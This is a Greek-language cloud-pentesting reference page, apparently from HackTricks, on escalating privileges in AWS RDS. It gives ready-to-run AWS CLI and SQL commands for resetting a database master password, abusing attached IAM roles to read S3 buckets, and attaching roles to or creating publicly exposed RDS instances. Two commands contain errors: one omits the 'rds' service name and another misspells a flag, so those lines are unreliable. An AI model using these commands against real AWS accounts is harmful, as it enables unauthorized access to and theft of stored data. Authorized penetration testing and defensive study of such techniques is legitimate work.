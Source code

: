 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Υπηρεσία Σχεσιακής Βάσης Δεδομένων

Για περισσότερες πληροφορίες σχετικά με το RDS ελέγξτε:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Με αυτή την άδεια, ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη**, και την είσοδο μέσα στη βάση δεδομένων:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Θα χρειαστεί να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).

**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), ένας χρήστης με αυτή την άδεια θα μπορούσε να συνδεθεί στην DB instance.

### Κατάχρηση δικαιωμάτων IAM ρόλου RDS

#### Postgresql (Aurora)

> [!TIP]
> Αν εκτελώντας **`SELECT datname FROM pg_database;`** βρείτε μια βάση δεδομένων που ονομάζεται **`rdsadmin`**, ξέρετε ότι βρίσκεστε μέσα σε μια **βάση δεδομένων AWS postgresql**.

Αρχικά μπορείτε να ελέγξετε αν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για να αποκτήσει πρόσβαση σε οποιαδήποτε άλλη υπηρεσία AWS. Μπορείτε να το ελέγξετε αυτό κοιτάζοντας τις εγκατεστημένες επεκτάσεις:
```sql
SELECT * FROM pg_extension;
```
Αν βρείτε κάτι όπως **`aws_s3`** μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποιο είδος πρόσβασης στο S3** (υπάρχουν άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, αν έχετε άδειες να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να δείτε εκεί αν το **cluster έχει οποιοδήποτε IAM Role συσχετισμένο** στο πεδίο **`AssociatedRoles`**. Αν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **έτοιμη να έχει πρόσβαση σε άλλες υπηρεσίες AWS**. Βασισμένοι στο **όνομα του ρόλου** (ή αν μπορείτε να αποκτήσετε τις **άδειες** του ρόλου) θα μπορούσατε να **μαντέψετε** ποια επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Αν είχατε **ακατέργαστα διαπιστευτήρια AWS**, θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Το Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή ομάδας παραμέτρων** για να μπορέσει να έχει πρόσβαση στο S3.

#### Mysql (Aurora)

> [!TIP]
> Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης που ονομάζεται **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.

Μέσα στο mysql εκτελέστε **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη να έχει πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν το cluster έχει οποιονδήποτε **συσχετισμένο ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS).

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS instance**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν επιπλέον ρυθμίσεις όπως το Mysql, το οποίο χρειάζεται να καθορίσει το ρόλο ARN στις ομάδες παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να δημιουργήσει μια **νέα παρουσία μέσα σε ένα κλάστερ** που ήδη υπάρχει και έχει συνημμένο ένα **IAM ρόλο**. Δεν θα μπορεί να αλλάξει τον κωδικό πρόσβασης του κύριου χρήστη, αλλά μπορεί να είναι σε θέση να εκθέσει τη νέα βάση δεδομένων στο διαδίκτυο:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Δοκιμή

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί **να δημιουργήσει μια νέα RDS instance με έναν καθορισμένο ρόλο συνδεδεμένο**. Ο επιτιθέμενος μπορεί στη συνέχεια δυνητικά **να έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της instance.

> [!WARNING]
> Ορισμένες απαιτήσεις του ρόλου/προφίλ instance που πρέπει να συνδεθούν (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
> - Το προφίλ πρέπει να έχει έναν IAM ρόλο που η Amazon EC2 έχει άδειες να αναλάβει.
> - Το όνομα του προφίλ instance και το σχετικό όνομα IAM ρόλου πρέπει να ξεκινούν με το πρόθεμα `AWSRDSCustom`.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.

> [!WARNING]
> Η DB παρουσία πρέπει να είναι εκτός ενός cluster για αυτό
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.

{{#include ../../../banners/hacktricks-training.md}}
